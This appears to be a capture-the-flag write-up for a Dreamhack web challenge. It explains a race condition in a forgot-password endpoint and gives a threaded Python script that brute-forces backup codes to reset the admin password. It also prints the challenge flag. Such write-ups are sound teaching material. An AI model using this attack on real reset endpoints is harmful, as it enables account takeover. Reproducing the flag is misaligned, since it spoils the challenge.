 # solution

at first, i thought this challenge is some kinds of sqlI, but look the source code more carefully. I see a vulnerability related to race condition.
![alt text](image.png)<br>
when you use forget_password the server will sleep(1). Hmm so if you send 100 request at once, then you can abuse the server to change the password via race condition.
So this is the idea how to get password. But you dont know admin'account. Let dive into a little bit.
![alt text](image-1.png)<br>
i try this url, and see an interesting thing:
![alt text](image-2.png)<br>
If you not lucky like me :(), you can bruce force it in intruder to find the admin'id.
Next, i will send 100 request in once time by using burp suite.
![alt text](image-3.png)<br>
oke good. DH{4b308b526834909157a73567075c9ab7}
Here a python code, you can try this if you dont use burp suite

```
import threading
import requests

url = "http://host3.dreamhack.games:19427/forgot_password"

def check_password_change(i):
    data = {"userid": "Apple", "newpassword": "slow", "backupCode": i}
    response = requests.post(url, data=data)
    if "Password Change Success" in response.text:
        print(f"Password change successful with backupCode: {i}")

# Start multiple threads
for i in range(1, 101):
    thread = threading.Thread(target=check_password_change, args=(i,))
    thread.start()

print("finish")

```
